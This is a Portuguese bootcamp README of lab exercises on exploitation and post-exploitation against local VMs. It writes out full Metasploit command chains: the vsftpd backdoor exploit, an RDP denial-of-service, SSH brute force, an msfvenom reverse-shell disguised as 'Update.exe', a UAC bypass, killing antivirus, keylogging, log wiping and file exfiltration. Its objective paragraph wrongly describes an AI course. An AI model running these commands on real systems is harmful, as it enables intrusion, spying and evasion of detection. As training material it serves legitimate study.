# Formação Cybersecurity Specialist - Module 4   

### Repository: [boot](../../../../)   
### Platform: <a href="../../../">dio   </a>   
### Software/Subject: <a href="../../">cybersecurity   </a>
### Bootcamp: <a href="../">boot_036 (Formação Cybersecurity Specialist)   </a>
### Module: 4. Exploração de Vulnerabilidade e Pós-Exploração 

#### <a href="https://github.com/PedroHeeger/my_tech_journey/tree/main/credentials/certificates/bootcamps/cybersecurity/mod/251109_Mod_Exploracao...Pos-Exploracao_PH_DIO.pdf">Certificate</a>

---

This folder refers to Module 4 **Exploração de Vulnerabilidade e Pós-Exploração** from bootcamp [**Formação Cybersecurity Specialist**](../).

### Theme:
- Cybersecurity

### Used Tools:
- Operating System (OS): 
  - Linux   
  - Windows 7   
  - Windows 11   
- Linux Distribution:
  - Kali Linux   
- Virtualization: 
  - Oracle VM VirtualBox   
  - VBoxManage   
- Cloud Services:
  - Google Drive   
- Language:
  - HTML   
  - Markdown   
  - Python   
- Integrated Development Environment (IDE) and Text Editor:
  - Nano   
  - Visual Studio Code (VS Code)   
- Versioning: 
  - Git   
- Repository:
  - GitHub   
- Library:
  - os   
  - virtualenv (venv)   
- Network:
  - ifconfig   
  - ip   
  - ipconfig   
  - Network Mapper (Nmap)   
  - Wireshark   
- Cibersecurity:
  - Damn Vulnerable Web Application (DVWA)   
  - Ettercap   
  - Metasploit   
  - Metasploitable   
  - Meterpreter; Meta-Interpreter   
  - msfconsole   
  - msfvenom   
- SysAdmin:
  - Task Manager   
  - User Account Control (UAC)   

---

### Bootcamp Module 4 Structure
4. <a name="item4">Exploração de Vulnerabilidade e Pós-Exploração</a> 
  4.1. <a href="#item4.1">Técnicas de Exploração de Vulnerabilidades</a> 
  4.2. <a href="#item4.2">Pós-Exploração em Sistemas Comprometidos</a> 
  4.3. <a href="#item4.3">Man in the Middle: Ataques e Mitigações</a> 
  4.4. <a href="#item4.4">Desafio de projeto: Entendendo um Ransomware na Prática com Python</a> 
  4.5. Materiais Complementares - Exploração e Pós Exploração 
  4.6. Avalie a Formação Cybersecurity Specialist 

---

### Objective:
O objetivo deste módulo do bootcamp foi introduzir conceitos fundamentais para melhor compreensão da Inteligência Articial. Conceitos como IA Geral, IA Restrita, Machine Learning (Aprendizado Profundo), Deep Learning, Redes Neurais, IAs Generativas, Processamento de Linguagem Natural, foram abordados. Também foi detalhado minuciosamente como são divididas as redes neurais e que a partir delas surgem as IAs Generativas.

### Folder Structure:
- [README.md](./README.md): Este documento de README, escrito em **Markdown**, descrevendo todo conteúdo das atividades desse módulo.
- [dp_ransomware](./dp_ransomware/): Pasta contendo os três arquivos (dois em **Python** e um de texto) do desafio de projeto de simulação de um ransomware.
- [meterprete.rc](meterpreter.rc): Arquivo de script do **Meterpreter** que automatizava o processo de criar a sessão inicial (sem privilégios administrativos).

### Development:
O desenvolvimento deste módulo do bootcamp foi dividido em quatro cursos. Abaixo é explicado o que foi desenvolvido em cada uma dessas atividades.

<a name="item4.1"><h4>4.1 Técnicas de Exploração de Vulnerabilidades</h4></a>[Back to summary](#item4) | <a href="https://github.com/PedroHeeger/my_tech_journey/blob/main/credentials/certificates/online_courses/cybersecurity/251018...Tecnicas...Exploracao_Vulnerabilidades_PH_DIO.pdf">Certificate</a>

⚠️ Exploração de Falhas, Backdoors e Ameaças Remotas   
A exploração de falhas descreve o processo de encontrar vulnerabilidades em sistemas e usá-las para obter acesso, executar código ou extrair dados. Embora técnicas ofensivas também sejam empregadas por profissionais (pentesters) para fortalecer a defesa, elas representam riscos reais quando aplicadas por agentes maliciosos. Por isso é fundamental entender os vetores comuns e como mitigá-los.

📁 FTP — riscos e limitações   
O FTP é um protocolo antigo para transferência de arquivos ainda presente em muitas redes. Por não ter sido projetado com controles de segurança modernos, ele costuma apresentar problemas como autenticação anônima permitida, possibilidade de travessia de diretórios, exposição de informações em texto claro e vetores para malware. Essas fragilidades tornam servidores FTP alvos frequentes para coleta de arquivos sensíveis e pivoteamento em redes comprometidas.

Vulnerabilidades típicas associadas ao FTP:
- Autenticação anônima habilitada.
- Falhas que permitem navegar para diretórios além do esperado (directory traversal).
- Exposição de credenciais em texto simples.
- Uso por campanhas de malware para distribuir cargas maliciosas.

Mitigações recomendadas:
- Evitar FTP em favor de protocolos seguros (SFTP/FTPS).
- Restringir acessos e desabilitar login anônimo.
- Monitorar e auditar transferências de arquivos.
- Segmentar rede para limitar o alcance de compromissos.

🧰 Ferramentas ofensivas   
Frameworks como o Metasploit são usados por profissionais de segurança e por atacantes para testar ou explorar sistemas. Eles entregam módulos de exploração, geradores de payloads, interfaces de controle e mecanismos de registro. Esse conhecimento é útil para defesa (por exemplo, identificar assinaturas de ataque e validar controles), mas não deve incluir instruções operacionais que facilitem invasões.

Componentes e utilitários comuns:
- msfconsole: console interativo em modo texto; o ponto principal para carregar módulos, ajustar opções, executar scanners e gerenciar sessões.
- msfweb / Metasploit Web UI: interface via navegador (quando disponível), que oferece fluxo visual para navegar entre módulos, sessões e relatórios.
- msfvenom (muitas vezes citado como msfplayload): utilitário para gerar e customizar payloads (unificou funcionalidades antigas como msfpayload e msfencode).
- msfcli: interface de execução via linha de comando usada historicamente para automação; hoje muitas implementações preferem msfconsole com scripts.
- msflogdump: arquivos e rotinas que registram eventos e sessões; essenciais para revisão, auditoria e rastreabilidade dos testes.

🧩 Payloads   
Payload é a “carga útil” que será executada no sistema alvo após exploração bem-sucedida — ou seja, o código que realiza a ação desejada (abrir um shell, criar um canal de comando e controle, coletar credenciais, etc.). Em testes controlados, payloads são usados para validar impacto e demonstrar riscos, sempre dentro de escopo e autorização.

Tipos de payloads:
- Single (single-stage):
  - O que é: payload autossuficiente — toda a funcionalidade é entregue e executada de uma só vez.
  - Vantagem: simples e direto; não depende de transferências adicionais.
  - Limitação: normalmente maior e pode ser mais fácil de detectar por defesa baseada em assinaturas.
- Stager (estagiador):
  - O que é: pequeno payload inicial cujo único propósito é estabelecer um canal entre atacante e vítima e, em seguida, baixar/negociar o payload maior (stage).
  - Vantagem: reduz a quantidade de código inicial (menor “pegada” na memória) e permite transferir o payload completo depois; útil para contornar restrições iniciais.
  - Limitação: requer comunicação adicional para trazer o stage, o que aumenta pontos de controle que defensores podem monitorar.
- Stage (stage / staged payload):
  - O que é: o payload maior e funcional que é transferido pelo stager. Contém as capacidades completas (por exemplo, um shell interativo avançado ou um agente de controle).
  - Vantagem: permite modularidade — o stager é mínimo e o stage traz as funcionalidades quando seguro/possível.
  - Limitação: depende do stager para entrega; se a transferência for interrompida, o stage não chega.

Exemplo prático (apenas conceitual): uma cadeia stager → stage permite primeiro abrir um pequeno canal (stager) e depois carregar um agente completo (stage) que roda em memória. Em contraste, um single já contém tudo no primeiro envio.

🖥️ RDP   
O Remote Desktop Protocol (RDP) permite controle remoto de estações e servidores Windows e costuma operar na porta TCP 3389. Quando exposto sem proteção, é um vetor comum para acesso não autorizado, movimento lateral e implantação de ransomwares.

Riscos associados ao RDP:
- Ataques de força bruta contra credenciais.
- Exploração de vulnerabilidades do serviço para execução remota.
- Uso como ponte para ataques internos após comprometimento.

Boas práticas:
- Habilitar autenticação multifator e senhas fortes.
- Aplicar políticas de bloqueio e limites de tentativas para prevenir força bruta.
- Restringir acesso via firewall (permitir somente IPs ou VPNs confiáveis).
- Usar controles baseados em função (RBAC) e monitoramento de sessões.

🔐 SSH — acesso remoto seguro   
O SSH fornece um canal criptografado para administração remota (porta 22 por padrão). Ataques de força bruta e credenciais fracas continuam sendo problemas recorrentes quando o serviço não é bem configurado.

Recomendações:
- Desabilitar autenticação por senha e usar chaves públicas/privadas.
- Limitar acessos por lista de controle e registrar tentativas de login.
- Atualizar o software e aplicar políticas de rotação de chaves/senhas.

🕳️ Backdoors e persistência   
Backdoors são mecanismos que permitem acesso continuado a sistemas comprometidos (por exemplo, implantes instalados por malware). Eles podem ser usados para espionagem, controle remoto, distribuição de ransomware ou mineração ilícita. A detecção costuma depender de monitoramento de comportamento e análise de tráfego.

Medidas de defesa:
- Monitoramento contínuo de rede e endpoints.
- Controle rigoroso de instalação de software e privilégio mínimo.
- Políticas de rotação de credenciais e verificação de integridade de arquivos.
- Uso de EDR/antivírus e processos de resposta a incidentes.

🧪 Meterpreter   
O meterpreter é um exemplo de payload utilizado em testes de segurança que roda inteiramente em memória, minimizando traços em disco. Conceitualmente, payloads em memória complicam a detecção por técnicas forenses tradicionais; por isso, os defensores devem combinar proteção em camadas, monitoramento comportamental e controles de privilégio para mitigar esse tipo de ameaça.

✅ Resumo de recomendações gerais   
- Preferir protocolos seguros (SFTP/FTPS, SSH) em vez de serviços legados sem criptografia (como FTP).
- Restringir e monitorar acessos remotos (RDP/SSH) com autenticação forte e controles de rede.
- Implementar segmentação de rede e privilégios mínimos para limitar impacto de compromissos.
- Manter sistemas atualizados e contar com detecção baseada em comportamento além de assinaturas.
- Tratar ferramentas ofensivas como insumos de teste — não como roteiros operacionais — e documentar todas as ações autorizadas.

##### Parte Prática

Neste curso, foram realizadas quatro explorações de vulnerabilidades, sendo duas delas tendo como alvo a VM do **Metasploitable**, falhas FTP e SSH, uma no **Windows XP**, ataque DOS, enquanto a última, na VM do **Windows 7**, criação e execução de um backdoor em um executável.

A primeira exploração foi a de falhas FTP, para isso foi preciso acessar a VM **Metasploitable** para criar uma flag simples. Após acessar a conta `msfadmin:msfadmin`, utilizou-se o editor **Nano** para criar o arquivo `flag.txt` com o conteúdo `flag`. O objetivo do exercício era localizar esse arquivo a partir da VM atacante (**Kali Linux**) usando o **Metasploit**, simulando um cenário de *Capture The Flag (CTF)*. No Kali, abriu-se o console do **Metasploit** com `msfconsole`.

Dentro do **msfconsole** realizou-se a busca por módulos de exploits relacionados ao servidor FTP com `search vsftpd` e, em seguida, obteve-se mais detalhes sobre o exploit específico com `info exploit/unix/ftp/vsftpd_234_backdoor` — tratava-se de uma backdoor conhecida na versão 2.3.4 do **VSFTPD**. Para selecionar esse módulo foi executado `use exploit/unix/ftp/vsftpd_234_backdoor`. As opções do exploit foram checadas com `show options` (a porta padrão era `21`) e o alvo foi configurado com `set RHOSTS 192.168.56.102` (IP da VM **Metasploitable**). Em seguida, os payloads disponíveis para esse módulo foram listados com `show payloads`, escolhendo `payload/cmd/unix/interact` via `set payload 0`. Após confirmar as opções (`show options`), o exploit foi disparado com `exploit`, conforme imagem 01.

<figure>
     
    <figcaption>Imagem 01.</figcaption>
</figure>
 

Ao explorar com sucesso, abriu-se uma sessão no servidor FTP da **Metasploitable** — todos os comandos seguintes foram executados na máquina comprometida. Para verificar a conectividade e confirmar o contexto, executou-se `ifconfig` na shell remota, confirmando o IP da **Metasploitable** antes de proceder à busca pelo arquivo `flag.txt`.

Com o acesso remoto obtido, navegou-se até o diretório do usuário com `cd /home/msfadmin` e exibiu-se o conteúdo da flag com `cat flag.txt`, confirmando o sucesso da exploração (conforme evidenciado na imagem 02).

<figure>
     
    <figcaption>Imagem 02.</figcaption>
</figure>
 

Em um segundo exercício de exploração, o alvo passou a ser a VM **Windows XP**, onde foi testada uma técnica de DoS contra o serviço **Remote Desktop Protocol (RDP)**. Para conectar a máquina à mesma rede do atacante, a interface foi alterada de NAT para host-only com `VBoxManage modifyvm "WinXP" --nic1 hostonly --hostonlyadapter1 "VirtualBox Host-Only Ethernet Adapter"`, garantindo que a VM recebesse um IP na sub-rede `192.168.56.0/24`. Antes de prosseguir, acessou-se a VM para confirmar que o **Remote Desktop** estava habilitado e executou-se `ipconfig` no **Command Prompt** para identificar o endereço IP atribuído.  

No Kali, novamente foi aberto o console do **Metasploit** (`msfconsole`) e pesquisou-se por módulos RDP com `search windows/rdp`, localizando o exploit `auxiliary/dos/windows/rdp/ms12_020_maxchannelids`. O módulo foi selecionado com `use auxiliary/dos/windows/rdp/ms12_020_maxchannelids` e o alvo configurado via `set RHOSTS 192.168.56.109` (IP da VM **Windows XP**). Como o efeito do exploit era imediato, as telas das duas VMs foram mantidas lado a lado para observação. Ao executar `run` o exploit provocou a tela azul do **Windows** e a subsequente reinicialização da VM. A imagem 03 ilustra o momento do ataque.  

<figure>
     
    <figcaption>Imagem 03.</figcaption>
</figure>
 

A terceira técnica aplicada explorou falhas de autenticação via SSH na VM **Metasploitable**. No **msfconsole** do **Kali Linux** pesquisou-se por módulos relacionados com `search ssh_login` e selecionou-se o scanner `auxiliary/scanner/ssh/ssh_login` com `use auxiliary/scanner/ssh/ssh_login`. Ao consultar `info` verificaram-se os parâmetros necessários: entre eles, dois ficheiros de wordlist — um para nomes de usuário e outro para senhas.

Foram então criadas wordlists locais com `nano password.txt` (uma senha por linha: `test`, `password`, `msfadmin`) e `nano user.txt` (mesmos valores, agora como usuários). Apesar do **msfconsole** estar aberto, era possível interagir com o sistema **Kali** sem precisar fechá-lo, por isso os arquivos foram salvos com o **Nano** no diretório corrente (`/root`).

No módulo o caminho para esses arquivos foram configurados com `set USER_FILE /root/user.txt` e `set PASS_FILE /root/password.txt`, e o alvo foi definido com `set RHOSTS 192.168.56.102` (IP da **Metasploitable**). Ao executar `exploit`, o módulo iniciou um ataque de força bruta SSH utilizando as wordlists fornecidas; quando uma combinação válida foi encontrada, o **Metasploit** abriu uma sessão remota.

A lista de sessões ativas pôode ser visualizada com `sessions` (ou `sessions -l`) e, para interagir com uma sessão específica, foi usado `sessions -i 1`. Após abrir a sessão, foi executado `ip addr` para confirmar o endereço IP da **Metasploitable**, conforme ilustrado na imagem 04.

<figure>
     
    <figcaption>Imagem 04.</figcaption>
</figure>
 

A última exploração consistiu na construção de um backdoor através de um artefato malicioso. De modo geral, um backdoor é um mecanismo que permite acesso não autorizado a um aplicativo, sistema ou rede, contornando controles de segurança. Diferentes classes de ataque podem se valer de backdoors — por exemplo, spyware, ransomware, ataques DDoS e cryptojacking. Neste exercício, o acesso não autorizado à VM alvo (**Windows 7**) foi estabelecido a partir do console do **Metasploit** no **Kali Linux**.

Para a atividade foi utilizado o **Meterpreter** (Meta-Interpreter), um payload carregado em memória que evita deixar vestígios em disco. O **Meterpreter** fornece um shell remoto interativo e um conjunto de extensões para executar tarefas pós-exploração — como upload/download de arquivos, captura de credenciais, keylogging, migração de processos e persistência.

Como a máquina alvo desta etapa era a VM **Windows 7**, a interface de rede foi alterada de NAT para host-only com `VBoxManage modifyvm "Win7" --nic1 hostonly --hostonlyadapter1 "VirtualBox Host-Only Ethernet Adapter"` para garantir que a VM recebesse um IP dentro da sub-rede `192.168.56.0/24` e ficasse na mesma rede da máquina atacante. Em seguida a VM foi inicializada e verificou-se o IP atribuído via `ipconfig`.

A construção do backdoor com **Meterpreter** envolvia duas partes: a máquina atacante, que hospedava um *listener* (handler) esperando a conexão, e a máquina alvo, que precisa executar o artefato malicioso para iniciar a comunicação.  

Para criação do artefato malicioso, foi utilizado o **msfvenom** do **Metasploit**. O **msfvenom** construía esse artefato definindo um payload do **Meterpreter** de *reverse shell*, passando as configurações da máquina alvo (arquitetura/plataforma), o nome e o formato do artefato, que no caso foi o executável `Update.exe`, além das configurações de rede. O comando executado foi: `msfvenom -p windows/meterpreter/reverse_tcp -a x86 platform windows -f exe LHOST=192.168.56.101 LPORT=4444 -o Update.exe`. Esse comando criava um binário (artefato) que, ao ser executado na máquina alvo, tentava conectar de volta ao host e porta informados (`LHOST`/`LPORT`), permitindo ao handler do **Metasploit** assumir a sessão.

Com o binário pronto, optou-se por disponibilizá-lo via um servidor web para simular o envio ao usuário alvo (engenharia social). Para isso iniciou-se o servidor Apache (`service apache2 start`) e o executável foi copiado para a pasta pública do servidor (`cp Update.exe /var/www/html`). 

No **Kali**, abriu-se novamente o console do **Metasploit** (`msfconsole`) e o listener foi preparado com `use multi/handler` para seleção do módulo, seguido de `set payload windows/meterpreter/reverse_tcp` para definir o payload, `set LHOST 192.168.56.101` para indicar quem receberia o shell reverso (a própria máquina **Kali Linux**) e `set LPORT 4444` para definir a porta. Essas configurações de rede tinham que ser as mesmas definidas no artefato malicioso para que a comunicação fosse estabelecida. Em seguida foi executado o comando `run` para executar e aguardar a conexão de retorno.

Na GUI da VM **Windows 7** abriu-se o navegador e acessou-se o endereço do servidor web hospedado na máquina atacante (`http://192.168.56.101/Update.exe`). O navegador pediu confirmação para baixar e instalar o arquivo; após instalação, uma sessão **Meterpreter** de retorno foi estabelecida, conforme evidenciado na imagem 05. A partir desse ponto, todos os comandos executados na sessão **Meterpreter** foram executados diretamente na VM **Windows 7**.

<figure>
     
    <figcaption>Imagem 05.</figcaption>
</figure>
 

As sessões podiam ser enviadas para segundo plano com `background`. Para listar as sessões ativas, executava-se `sessions`, e para retomar uma sessão específica utilizava-se, por exemplo, `session 1` — que correspondia à primeira sessão criada. Essa sessão também poderia ser a segunda, já que, durante a exploração de falhas em SSH, havia sido estabelecida outra sessão. Vale ressaltar que as sessões são perdidas quando o **msfconsole** é fechado; somente enquanto o console permanecer aberto as sessões ficam disponíveis.

<a name="item4.2"><h4>4.2 Pós-Exploração em Sistemas Comprometidos</h4></a>[Back to summary](#item4) | <a href="https://github.com/PedroHeeger/my_tech_journey/blob/main/credentials/certificates/online_courses/cybersecurity/251105_Pos-Exploracao...Comprometidos_PH_DIO.pdf">Certificate</a>

🛠️ Pós-exploração   
A pós-exploração envolve as ações realizadas após a abertura de uma sessão bem-sucedida em um sistema alvo. Uma sessão pode ser um shell simples ou um ambiente mais avançado como o Meterpreter. Nessa fase, o objetivo é manter acesso ao dispositivo comprometido, coletar informações de valor, mapear o ambiente interno e preparar exfiltração de dados sem ser detectado. As atividades devem ser conduzidas com cautela, pois qualquer ruído adicional pode ativar mecanismos de detecção e levar à perda do acesso.

🔁 Fluxo de atividades   
O processo de um ataque ou teste costuma seguir um fluxo organizado que ajuda a estruturar a operação e o relatório:  
- **Setup (Configuração):** preparo do ambiente e ferramentas necessárias antes de iniciar as ações (ex.: criação de máquinas, listeners, e definição de objetivos).  
- **Discovery (Descoberta):** varredura e identificação de alvos e recursos visíveis na rede (ex.: hosts ativos, portas abertas, serviços).  
- **Enumeration (Enumeração):** coleta detalhada de informações específicas sobre serviços, usuários, compartilhamentos e versões de software para encontrar vetores de ataque.  
- **Detection (Detecção):** identificação de mecanismos de defesa e sinais que podem revelar presença do atacante (ex.: IDS/IPS, logs, antivírus) — e avaliar o risco de ser detectado.  
- **Exploitation (Exploração):** exploração de vulnerabilidades ou credenciais para obter acesso ao sistema alvo (ex.: execução de exploits, força bruta, exploração de misconfigurations).  
- **Post Exploitation (Pós-exploração):** ações realizadas após obter acesso, como movimentação lateral, escalonamento de privilégios, coleta e exfiltração de dados, e estabelecimento de persistência.  
- **Reporting (Relatório):** documentação técnica e executiva das atividades, evidências e impacto obtido durante o teste ou ataque.  
- **Read-Out (Apresentação dos resultados):** comunicação dos achados para stakeholders; explicar riscos, evidências e recomendações de forma compreensível.  
- **Remediation (Remediação):** aplicação de correções e mitigação das vulnerabilidades identificadas (ex.: patches, mudanças de configuração, revogação de credenciais).  
- **Final Testing (Testes finais):** verificação posterior para confirmar que as remediações foram eficazes e que o vetor de ataque não é mais explorável.

🔐 Escalonamento de privilégios   
O escalonamento de privilégios é uma técnica central na pós-exploração: consiste em buscar formas de elevar direitos dentro do sistema alvo (por exemplo, de usuário comum para administrador/root). Esse passo permite acesso a áreas e dados restritos, facilita a criação de persistência mais robusta e amplia a capacidade de exfiltração. Métodos comuns incluem exploração de vulnerabilidades locais, abusos de configurações incorretas, credenciais armazenadas localmente e exploração de serviços com permissões excessivas.

🧩 Tipos de módulos e ações comuns   
Durante a pós-exploração, são usados módulos e técnicas com finalidades específicas:  
- Extract credentials (Extração de credenciais): busca e extração de credenciais armazenadas (hashes, senhas em arquivos, caches).  
- Privilege escalation modules (Módulos de escalonamento de privilégios): módulos que procuram vetores de elevação de privilégio.  
- Information gathering (Coleta de informação): coleta de informações sobre o sistema, rede, usuários, serviços e software instalado.  
- Spy / Capture (Espionagem / Captura): captura de dados em tempo real, como keylogging, capturas de tela ou gravação de sessões.

🧰 Metasploit e persistência   
O Metasploit oferece recursos para automatizar e facilitar tarefas de pós-exploração. Um exemplo é o script *persistence*, que auxilia na configuração de um listener persistente (por exemplo, um Meterpreter que reconecta) no sistema da vítima. A persistência permite que o atacante mantenha acesso após reinicializações ou tentativas de limpeza, mas também aumenta o risco de detecção se implementada de forma ruidosa.

📝 Conclusão   
A pós-exploração é uma etapa crítica e delicada: permite extrair maior valor de uma intrusão, mas exige técnica e discrição para evitar detecção. O foco costuma ser manter acesso (persistência), ampliar privilégios e coletar informações relevantes para os objetivos do atacante ou do teste, sempre registrando as ações para fins de relatório e eventual remediação.

##### Parte Prática

Durante a parte prática desse curso foram realizadas quatro pós-explorações: escalonamento de privilégios, extração de dados, execução de diversos módulos, inclusive via script, e persistência de sessão. Todas as ações ocorreram na máquina virtual **Windows 7** do **Oracle VM VirtualBox**, após a criação e execução do backdoor com **Metasploit** realizada na última exploração do curso anterior.

A primeira etapa de pós-exploração foi o escalonamento de privilégios e deu sequência à criação do backdoor no **Windows 7**. No **Kali** o console do **Metasploit** (`msfconsole`) foi aberto e o mesmo listener foi novamente preparado com os seguintes comandos:
- `use multi/handler`: selecionava o módulo que recebia conexões de payloads reversos.  
- `set payload windows/meterpreter/reverse_tcp`: definia o payload de shell reverso do **Meterpreter**.
- `set LHOST 192.168.56.101`: definia o IP da máquina que receberia a conexão (a própria **Kali**).  
- `set LPORT 4444`: definia a porta de escuta. Tinha que ser a mesma definida no artefato malicioso.
- `run`: iniciava o handler e aguardava a conexão de retorno.

Na VM **Windows 7** executou-se novamente o binário malicioso para que a sessão **Meterpreter** fosse estabelecida. Com a sessão ativa, comandos de reconhecimento e controle foram executados pelo **Meterpreter**: `sysinfo` (informações do sistema), `getuid` (identificação do usuário atual), `getpid` (PID do processo da sessão) e `getsystem` (tentativa de elevação para privilégios do sistema). Como a sessão inicial estava atrelada ao processo filho originado pela execução do binário (artefato), foi feita migração para um processo mais estável (`explorer.exe`) usando `ps` para listar os processos existentes e `migrate 1380` para migração, onde `1380` era o PID do `explorer.exe`. A confirmação da migração (alteração do PID da sessão) pode ser vista na imagem 06.

<figure>
     
    <figcaption>Imagem 06.</figcaption>
</figure>
 

Quando o arquivo `Update.exe` era executado no **Windows 7**, um processo era criado. O **Meterpreter** era carregado dentro desse processo como uma thread; portanto, a sessão aberta teria o PID desse processo e o mesmo usuário. Como no **Windows 7** a instalação do `Update.exe` era feita pelo usuário `pedro`, o processo também pertencia ao usuário `pedro`.

O comando `getsystem` tentava elevar os privilégios dessa sessão para o nível mais alto do **Windows** (`NT AUTHORITY/SYSTEM`). Ele testava automaticamente vários métodos de elevação de privilégios: Named Pipe Impersonation, Token Duplication, RPCSS, PrintSpooler e outros. O *Named Pipe Impersonation* é uma técnica que explora a forma como o **Windows** trata named pipes — canais de comunicação usados entre processos.

No **Windows**, cada processo possui threads e um token de segurança. Esse token informa quem é o usuário, os grupos e quais permissões o processo tem. O **Meterpreter** criava um named pipe controlado por ele e enganava um processo SYSTEM para que se conectasse a esse pipe. Quando isso ocorria, ele capturava o token desse processo SYSTEM e aplicava esse token a uma nova thread dentro do processo comprometido. Com isso, o processo continuava pertencendo ao usuário `pedro`, mas a thread usada pela sessão do **Meterpreter** passava a operar com privilégios SYSTEM. A thread original — que ainda usava o token de segurança do usuário `pedro` — continuava existindo dentro do processo.

A thread SYSTEM permanecia válida apenas enquanto a sessão do **Meterpreter** estivesse ativa. Por isso, ao colocar a sessão em background e voltar para ela, executar novamente `getsystem` resultava em erro: já existia uma thread com um token SYSTEM dentro daquele processo. Além disso, ao abrir shells a partir dessa sessão, o token herdado era o token original do processo (usuário `pedro`), e não o token SYSTEM aplicado à thread usada pelo **Meterpreter**. Dessa forma, o `getsystem` não resolvia completamente a questão da elevação de privilégios para fora do contexto do **Meterpreter**, já que o token SYSTEM não substituía o token do processo, apenas era usado por uma thread específica criada pelo **Meterpreter**.

O próximo passo foi acessar o shell do **Windows** por meio do comando `shell` atrvés do **Meterpreter**. No **Windows 7**, era possível acompanhar a abertura do shell e os processos em execução diretamente pelo **Task Manager (Gerenciador de Tarefas)**. Com o comando `whoami`, verificou-se qual usuário estava em uso — no caso, o usuário `pedro`, e não o administrador. Em seguida, o comando `whoami /priv` exibiu a lista de privilégios atribuídos a esse usuário, indicando quais permissões estavam habilitadas e quais não, conforme mostrado na imagem 07. Por fim, o shell foi encerrado utilizando o comando `exit`.

<figure>
     
    <figcaption>Imagem 07.</figcaption>
</figure>
 

Como observado, o escalonamento de privilégios não foi obtido corretamente. Por isso, recorreu-se ao **User Account Control (UAC)**, mecanismo de controle de acesso do **Windows**, e construiu-se uma segunda sessão com o objetivo de elevar privilégios. A sessão em uso foi então enviada para segundo plano com `background` e sua presença confirmada com `sessions`.  

Para localizar módulos relacionados ao UAC, foi executado `search uac` e escolheu-se `exploit/windows/local/bypassuac` com `use exploit/windows/local/bypassuac`. As opções do módulo foram listadas com `show options`. Para definir o payload, executou-se `set payload windows/meterpreter/reverse_tcp`. Com `show targets` foram verificadas as arquiteturas suportadas pelo módulo. Como a VM **Windows 7** era 32 bits, selecionou-se o alvo `0` (`set target Windows\ x86`). Em seguida, foi configurado o host atacante e a porta com `set lhost 192.168.56.101` e `set lport 2022`. O comando `show options` foi usado novamente para confirmar as configurações. A sessão inicial (estabelecida pelo backdoor) foi indicada com `set session 1`. Por fim, a exploração foi iniciada com `exploit`, executando-se a ação na VM **Windows 7**, conforme imagem 08. Essa exploração estabeleceu uma outra sessão reversa, que foi adicionada à lista de sessões com `background`.  

<figure>
     
    <figcaption>Imagem 08.</figcaption>
</figure>
 

Aqui, a porta utilizada poderia ser qualquer uma, pois a sessão já estabelecida pelo artefato malicioso continuava sendo reaproveitada. Essa segunda sessão, ao ser iniciada, criou um novo processo com PID `2172` e nome aleatório dentro da pasta de arquivos temporários do **Windows**, responsável por manter a comunicação ativa.

Para visualizar as duas sessões criadas, foi executado o comando `sessions`. Em seguida, utilizou-se a sessão que havia acabado de ser construída com o comando `sessions 2`. Dentro dessa sessão, foi executado `getuid` para confirmar o usuário, que ainda era `pedro`. O comando `getsystem`, que havia sido usado anteriormente na tentativa de escalonamento de privilégios, foi executado novamente. O usuário foi alterado para `NT AUTHORITY/SYSTEM`, sendo essa mudança confirmada com `getuid`. Na sequência, abriu-se um shell com o comando `shell` e executou-se `whoami` para verificar o usuário desse shell, que também era `NT AUTHORITY/SYSTEM`. O comando `whoami /priv` exibiu todas as permissões associadas a esse usuário. A imagem 09 evidencia o escalonamento de privilégios realizado com sucesso.  

<figure>
     
    <figcaption>Imagem 09.</figcaption>
</figure>
 

Agora o comando `getsystem` funcionou corretamente por causa do bypass do **User Account Control (UAC)** permitido nesse contexto. Após elevar os privilégios, ao colocar a sessão em background, o usuário permanecia como `NT AUTHORITY/SYSTEM`. Da mesma forma, ao abrir um shell a partir dessa sessão, o contexto também continuava com privilégios de `SYSTEM`.

A segunda pós-exploração foi a extração de dados (exfiltração). Todas as pós-explorações ocorreram na VM **Windows 7**. Nesse alvo, foi criado um arquivo de texto chamado `flag` com o conteúdo `flag` no diretório `Documents`. 

No **Kali Linux**, com o **Meterpreter** ativo no **msfconsole** e utilizando a segunda sessão (que possuía privilégios administrativos), comandos para extrair o conteúdo desse arquivo foram executados. Primeiro, rodou-se `run post/windows/manage/killav` para encerrar um eventual antivírus em execução no alvo. Em seguida, criou-se uma terceira sessão utilizando o **VNC** (`run vnc`) para estabelecer uma visualização gráfica em tempo real do sistema, conforme demonstrado na imagem 10, onde o **Notepad** foi aberto e utilizado.  

<figure>
     
    <figcaption>Imagem 10.</figcaption>
</figure>
 

O comando `screenshare` abriu a visualização gráfica do sistema no navegador do **Kali**. Em seguida, a sessão foi encerrada com `Ctrl + C` e a captura de teclas foi iniciada com `keyscan_start`, que registrava tudo o que era digitado pelo usuário. Para evidenciar a captura, foi aberto o **Notepad** na VM **Windows 7** e digitado `meu nome e pedro`. No **Meterpreter**, os registros foram recuperados com `keyscan_dump`, confirmando que a interação no **Notepad** foi capturada, conforme imagem 11. Para encerrar a captura foi executado `keyscan_stop`.

<figure>
     
    <figcaption>Imagem 11.</figcaption>
</figure>
 

O comando `clearev` era usado para limpar diversos logs do sistema no alvo. Em seguida, executou-se `search -d C:/Users -f *.txt` para procurar, no diretório de usuários do **Windows 7**, todos os arquivos de texto (`*.txt`). O output retornava os caminhos dos arquivos encontrados. Aqui, mesmo tendo permissão de administrador, pode ocorrer devido a erro de permissão, que pode está associado ao PID vinculado. Quando a segunda sessão foi criada foi destinado um PID aleatório. Dessa forma, foi necessário migrar novamente com o comando `migrate 1380` alterando para o processo `explorer.exe`.

Para transferir o arquivo de interesse, utilizou-se `download C:/Users/pedro/Documents/flag.txt`, que baixou o arquivo `flag.txt` para a pasta do **Kali** em `/root`. Na interface gráfica do **Kali**, navegou-se até essa pasta com o Gerenciador de Arquivos e o arquivo foi aberto para confirmar o conteúdo. A imagem 12 exibe a informação capturada no arquivo.

<figure>
     
    <figcaption>Imagem 12.</figcaption>
</figure>
 

Assim como existe o comando `download`, há também o comando `upload`. Foi criado em `/root` o arquivo `testupload.txt` com o conteúdo `test upload`. Na sessão do **Meterpreter** executou-se `upload /root/testupload.txt C:/Users/pedro/Documents/`, transferindo o arquivo para a máquina **Windows 7**. Em seguida, abriu-se o arquivo pela interface do **Windows** para confirmar o conteúdo, conforme mostrado na imagem 13.

<figure>
     
    <figcaption>Imagem 13.</figcaption>
</figure>
 

